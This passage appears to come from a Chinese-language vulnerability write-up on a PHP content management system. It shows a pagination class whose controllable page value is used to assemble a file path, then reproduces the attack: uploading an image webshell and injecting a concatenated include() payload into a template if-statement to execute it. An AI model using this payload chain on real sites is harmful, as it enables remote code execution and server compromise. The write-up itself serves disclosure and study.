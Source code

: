 ```php
        return ($this->page - 1) * $this->pageSize + ($this->start - 1) . ",$this->pageSize";
    } 
  // 当前页码容错处理
    private function page(){
        $page = get('page', 'int') ?: $this->page;
        if (is_numeric($page) && $page > 1) {
            if ($page > $this->pageCount && $this->pageCount) {
                return $this->pageCount;
            } else {
                return $page;
            }
        } else {
            return 1;
        }
    }
  ...
?>
```

这里是该程序的一个分页类，可以看到里面有一个叫PAGE的常量，且该常量可控。

那么就寻找调用了这个分页类的地方传入page就好。

例如：`http://url/?keyword=123&page=0123456789`

![](images/15892018456605.png)


且该常量为string类型。

至此，路径中需要的字符都构造出来了，只需要用.连接即可。

### 漏洞复现

上传图片马

![](images/15892018583555.png)


得到路径`static/upload/image/20200417/1587111957160139.png`

根据路径构造payload


```
include(s.tatic.array(__FILE__)[0][0].upload.array(__FILE__)[0][0].image.array(__FILE__)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][0].array(PAGE)[0][4].array(PAGE)[0][1].array(PAGE)[0][7].(马赛克).png)
```

将payload放入模板的if语句中

模板注入

![](images/15892018781441.jpg)

